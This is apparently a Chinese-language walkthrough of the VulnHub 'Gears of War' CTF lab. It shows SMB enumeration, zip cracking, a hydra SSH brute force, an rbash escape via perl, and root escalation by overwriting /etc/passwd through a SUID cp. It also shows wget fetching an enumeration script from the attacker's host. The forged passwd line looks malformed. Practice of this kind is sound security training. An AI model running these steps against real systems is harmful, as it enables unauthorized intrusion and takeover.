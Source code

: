 # Gears of War

## 一、测试环境

Gears of War靶机、Mac攻击机、kali2020辅助攻击机

```text
VM名称：GEARS OF WAR: EP#1
下载：https://download.vulnhub.com/gearsofwar/Gear_Of_War%231.ova
描述：Its a CTF machine that deals with the history of gears of war, where we must try to escape from prison and obtain root privileges. it has some rabbit holes, so you have to try to connect the tracks to get access.
运行：在VirtualBox中比VMware更好地工作
```

_**靶机Gears of War**_

![image-20210313215140539](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210313215140539.png)

## 二、信息收集

nmap扫描ip地址

![10A1214297B281B4BEDBD85BA7327576](https://gitee.com/Harveysn0w/mac-note_img/raw/master/10A1214297B281B4BEDBD85BA7327576.jpg)

我们访问172.20.10.14

![705A683D140FA56E02F8918FAB2B46A8](https://gitee.com/Harveysn0w/mac-note_img/raw/master/705A683D140FA56E02F8918FAB2B46A8.jpg)

接着再用nmap扫描详细信息

![E6A1EB13E5699FE317BC140D57FC1BC3](https://gitee.com/Harveysn0w/mac-note_img/raw/master/E6A1EB13E5699FE317BC140D57FC1BC3.jpg)

![0AD0512A-1B81-4414-9583-9E4BCC006846](https://gitee.com/Harveysn0w/mac-note_img/raw/master/0AD0512A-1B81-4414-9583-9E4BCC006846.png)

没啥发现。dirsearch扫描目录看看。

![image-20210314162417916](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210314162417916.png)

发现了robots.txt。访问一探究竟

![image-20210314162601017](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210314162601017.png)

发现了5个网页，打开看一看~看样子网页里面的注释可能是个hint。

![image-20210320133322686](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320133322686.png)

从各页面得到如下提示

```text
marcus.html --> znephf
dom.html --> qbz
cole.html --> pbyr
baird.html --> onveq
acarmine.html --> npnezvar
znephfqbzpbyronveqnpnezvar
```

使用`enum4liux`进行smb信息枚举，得到共享`//192.168.56.101/LOCUS_LAN$`。

```text
enum4linux -a -o 172.20.10.14
```

![image-20210320152555433](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320152555433.png)

![image-20210320152539120](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320152539120.png)

![image-20210320153704135](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320153704135.png)

用`smbclient`访问共享目录，得到两个文件。

```text
smbclient //172.20.10.14/LOCUS_LAN$ 
密码：GEARS_OF_WAR
```

![image-20210320153618472](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320153618472.png)

![image-20210320153800750](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320153800750.png)

把这两个文件get下来到本地

![image-20210320154051379](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320154051379.png)

![image-20210320154105720](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320154105720.png)

解压压缩包需要密码~ ![image-20210320154140946](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320154140946.png)

先看看txt吧~里面是有关密码的提示：

![image-20210320154202404](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320154202404.png)

应该是crunch

![image-20210320161116786](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320161116786.png)

结合上面这两个，我们就知道需要使用`crunch`生成密码字典，并且密码的长度为4位，以及组合方式。最后使用`fcrackzip`破解得到密码`r44M`。

![image-20210320161434768](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320161434768.png)

解压`msg_horda.zip`后得到`key.txt`。查看`key.txt`后发现里面有个字符串，结合之前的信息收集，想到的只有SSH的登录密码或者是网站的某个目录。

![image-20210320161637375](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320161637375.png)

访问`http://172.20.10.14/3_d4y`提示未发现页面。

![image-20210320161555506](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320161555506.png)

kali里面要先解压一个字典哦~

![image-20210320163210752](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320163210752.png)

用`hydra`爆破一下得到了一组账号密码`marcus:3_d4y`，随后通过SSH登录系统。

![image-20210320172826500](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320172826500.png)

![image-20210320173340791](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320173340791.png)

![image-20210320173357515](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320173357515.png)

## 三、渗透测试之rbash逃逸

我们进入其他目录提示rbash~

![image-20210320173709632](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320173709632.png)

尝试了一下，绕不过去~

![image-20210320174017110](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320174017110.png)

参考文章：

* 嘶吼：[渗透技巧——如何逃逸Linux的受限制shell执行任意命令](https://www.4hou.com/penetration/11674.html)
* 先知社区：[绕过Linux受限Shell环境的技巧](https://xz.aliyun.com/t/2333)

最后通过`perl -e 'exec "bin/sh";'`成功逃逸。

![image-20210320174143647](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320174143647.png)

PS：参考~

![image-20210320174226855](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320174226855.png)

## 四、提权

find命令发现了SUID权限的`/usr/share/vim`、`/usr/share/awk`、`/bin/cp`

```bash
find / -perm -u=s 2>/dev/null
```

![image-20210320184232564](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320184232564.png)

![image-20210320184524496](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320184524496.png)

vim和awk在这里都没法提权成功。这两个命令的提权条件见[https://gtfobins.github.io/gtfobins/awk/\#limited-suid、https://gtfobins.github.io/gtfobins/vim/\#limited-suid](https://gtfobins.github.io/gtfobins/awk/#limited-suid、https://gtfobins.github.io/gtfobins/vim/#limited-suid)

PS：虽然SUID权限的vim可以直接提权但是当前用户无法执行`sudo`命令。

我们这里用cp命令提权。思路就是新建一个passwd文件，复制靶机上`/etc/passwd`中的内容，并增加一条记录harveysn0w:$1$xyz$$1$xyz$Kml6AMovRrDDVezktQmzB/:0:0:root:/root:/bin/bash。然后用新建的passwd文件覆盖原有的/etc/passwd。

生成加密密码

```bash
openssl passwd -salt 'xyz' -1 harveysn0w
```

然后替换之前的密码

![image-20210320185105248](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320185105248.png)

![image-20210320192050177](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320192050177.png)

![image-20210320192112027](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210320192112027.png)

![4355B9CDA169CB1B976CE7A4961A1BDF](https://gitee.com/Harveysn0w/mac-note_img/raw/master/4355B9CDA169CB1B976CE7A4961A1BDF.jpg)

## 五、提权小话语

关于Linux提权，可以直接用脚本搜集一下对于提权有用的信息，比如用[linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker)、[LinEnum.sh](https://github.com/rebootuser/LinEnum).

> 如果你想熟悉一下没有脚本的情况下怎么收集这些信息可以参考[privilege_escalation_-\_linux](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)

先在kali上开启HTTP服务

```bash
python -m SimpleHTTPServer 65534
```

使用wget下载linuxprivchecker.py脚本到靶机的tmp目录

> 因为靶机不允许直接访问Github，所以我是从自己的kali下载的

```bash
cd /tmp
wget http://192.168.0.108:65534/Desktop/linuxprivchecker.py
```

为了便于查看收集到的信息，我将结果输出到report.txt文本中，之后使用less查看

```bash
python linuxprivchecker.py > report.txt
less report.txt
```

靶机做了这些后发现还是手动收集更快……，手动收集不到有效信息的情况下再尝试用脚本。

## 六、其他

最后密码替换仍需仔细看看~

